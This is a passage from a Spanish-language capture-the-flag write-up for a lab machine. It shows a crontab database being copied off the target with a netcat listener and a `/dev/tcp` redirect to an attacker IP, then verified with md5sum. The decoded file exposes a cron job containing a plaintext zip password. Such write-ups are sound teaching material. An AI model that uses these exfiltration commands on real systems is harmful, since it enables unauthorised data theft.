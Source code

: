 Podemos transferirnos el archivo a nuestra máquina haciendo uso de un socket que se define en la ruta especial `/dev/tcp`. Este socket nos permite **entablar conexiones fácilmente** con un solo comando, en este caso, enviaremos el archivo a nuestra máquina de la siguiente manera

Primeramente necesitaremos tener un puerto a la escucha, en mi caso seleccionaré el puerto `8000`, y redirigimos la salida a un archivo `crontab.db`

~~~ bash
nc -lvnp 8000 > crontab.db
listening on [any] 8000 ...
~~~

Ahora con el siguiente comando leeremos el contenido del archivo y lo enviaremos a nuestra IP por el puerto `8000`

~~~ bash
enzo@planning:~$ cat /opt/crontabs/crontab.db > /dev/tcp/10.10.14.169/8000
~~~ 

### (Tip) Verifying File Integrity with `md5sum`

Para validar la integridad del archivo en la transferencia, podemos computar el hash MD5 resultante de este archivo en ambas máquinas. Si el hash cambia, sabremos que el archivo está corrupto

~~~ bash
# Máquina víctima (original)
enzo@planning:~$ md5sum /opt/crontabs/crontab.db
b5d0a1472c202284c52e62f51d764bd5  /opt/crontabs/crontab.db

# Máquina atacante (copia)
md5sum crontab.db    
b5d0a1472c202284c52e62f51d764bd5  crontab.db
~~~


## Credentials Leakage

Si vemos el contenido del archivo `crontab.db` con la ayuda de `jq`, podemos ver lo siguiente

~~~ bash
cat crontab.db | jq
{
  "name": "Grafana backup",
  "command": "/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz",
  "schedule": "@daily",
  "stopped": false,
  "timestamp": "Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740774983276,
  "saved": false,
  "_id": "GTI22PpoJNtRKg0W"
}
{
  "name": "Cleanup",
  "command": "/root/scripts/cleanup.sh",
  "schedule": "* * * * *",
  "stopped": false,
  "timestamp": "Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740849309992,
  "saved": false,
  "_id": "gNIRXh1WIc9K7BYX"
}
~~~
